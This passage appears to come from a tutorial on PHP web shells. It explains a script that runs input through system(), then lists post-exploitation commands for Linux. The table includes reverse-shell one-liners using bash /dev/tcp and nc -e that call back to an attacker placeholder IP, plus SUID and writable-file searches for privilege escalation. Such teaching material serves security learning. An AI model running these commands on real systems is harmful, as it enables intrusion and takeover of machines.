 The above script, when accessed, displays an input field. Whatever is  entered in this input field is then run against the underlying operating system using the `system()` PHP function, and the output is displayed to the user.

![image.png](images/image%204.png)

### Making the Most of It

After exploiting a vulnerability and gaining access to the operating system via a web shell, the next steps depend on:

- **Your goal:** What you aim to achieve (e.g., data exfiltration, privilege escalation).
- **System misconfigurations:** These determine what actions are possible.

Below are examples of commands that can be run on a Linux system after gaining access, along with their uses:

| **Command** | **Purpose** |
| --- | --- |
| `ls` | Lists files and directories in the current location, helping you understand your surroundings. |
| `cat <file>` | Outputs the contents of a file (e.g., configuration files, logs). |
| `pwd` | Displays the current working directory. |
| `whoami` | Reveals the identity of the user you're logged in as. |
| `hostname` | Displays the system's name, potentially providing insights into its role on the network. |
| `uname -a` | Provides detailed system information (e.g., OS name, kernel version). |
| `id` | Displays the user’s ID and group memberships. |
| `ifconfig` | Reveals the network configuration, showing IP addresses and active interfaces. |
| `bash -i >& /dev/tcp/<your-ip>/<port> 0>&1` | Creates a reverse shell using Bash to connect back to your system. |
| `nc -e /bin/sh <your-ip> <port>` | Initiates a reverse shell using Netcat. |
| `find / -perm -4000 -type f 2>/dev/null` | Finds **SUID (Set User ID)** files for privilege escalation opportunities. |
| `find / -writable -type f 2>/dev/null \| grep -v "/proc/"` | Identifies writable files, excluding `/proc/`, which might allow modifications or exploitation. |

---

### Notes:
